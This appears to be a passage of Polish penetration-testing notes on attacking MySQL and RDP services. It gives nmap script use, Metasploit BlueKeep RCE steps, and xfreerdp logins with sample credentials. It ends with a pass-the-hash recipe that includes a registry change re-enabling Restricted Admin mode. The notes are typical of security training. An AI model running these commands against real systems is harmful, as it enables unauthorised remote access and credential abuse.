 ## $ msf
![[Metasploit#MYSQL]]

## $ nmap

```bash
nmap <target> --script=<script-name> # np.: --script=http-fileupload-exploiter
```

[[nmap#mysql]]

# RDP (T:3389)
Remote Desktop Protocol - Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.

bardzo często port jest zmieniany na inny niż 3389

## $ msf>rdp_scanner

## $ msf>BlueKeep(vulnerability)

```bash
msfconsole
search bluekeep (jest skaner oraz samo skrypt RCE)
use bluekeep_rce
show targets
set target 2
```

## $ xfreerdp

```bash
$ hydra ...
# program do łączenia się poprzez RDP
$ xfreerdp /u:administrator /p:qwertyuiop /v:target:3333
$ xfreerdp /v:192.168.100.50 /u:mike /p:diamond +clipboard /dynamic-resolution
```

### $ passthehash z xfreerdp
```powershell
# https://www.stationx.net/pass-the-hash-attack/

# zmienia Restricted Acces jeśli jest włączony
$ reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# kali
$ xfreerdp /v:192.168.100.50 /u:Administrator /pth:5c4d59391f656d5958dab124ffeabc20 +clipboard /dynamic-resolutionz
```
